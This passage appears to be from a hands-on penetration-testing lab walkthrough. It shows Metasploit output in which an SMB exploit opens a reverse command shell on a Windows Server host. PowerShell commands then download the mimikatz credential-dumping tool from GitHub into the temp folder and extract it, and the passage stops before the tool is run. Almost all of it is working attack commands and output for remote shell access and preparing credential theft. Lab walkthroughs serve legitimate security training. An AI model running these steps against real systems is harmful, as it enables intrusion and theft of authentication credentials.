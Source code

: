 ```bash
[*] 10.0.4.131:445 - Server is running. Listening on 10.0.4.196:445
[*] 10.0.4.131:445 - Server started.
[*] 10.0.4.131:445 - The named pipe connection was broken, reconnecting...
[*] 10.0.4.131:445 - Successfully reconnected to the named pipe.
[*] 10.0.4.131:445 - The named pipe connection was broken, reconnecting...
[*] Command shell session 1 opened (10.0.4.196:4444 -> 10.0.4.131:51572) at 2022-06-03 10:31:46 +0000
[*] 10.0.4.131:445 - Server stopped.


Shell Banner:
Microsoft Windows [Version 10.0.14393]
-----
          
C:\Windows\system32>
```

## mimikatz

Mimikatz is an open-source application that allows users to view and save authentication credentials like Kerberos tickets

- download mimikatz to the windows vm

```powershell
C:\Windows\system32>powershell
powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

PS C:\Windows\system32> wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip" -outfile "C:\windows\temp\mimikatz_trunk.zip"
wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip" -outfile "C:\windows\temp\mimikatz_trunk.zip"
```

- exract the mimikatz zip file

```powershell
PS C:\Windows\system32> cd C:\windows\temp\
cd C:\windows\temp\

PS C:\windows\temp> Expand-Archive mimikatz_trunk.zip -Force
Expand-Archive mimikatz_trunk.zip -Force

PS C:\windows\temp> cd mimikatz_trunk\x64
cd mimikatz_trunk\x64
```
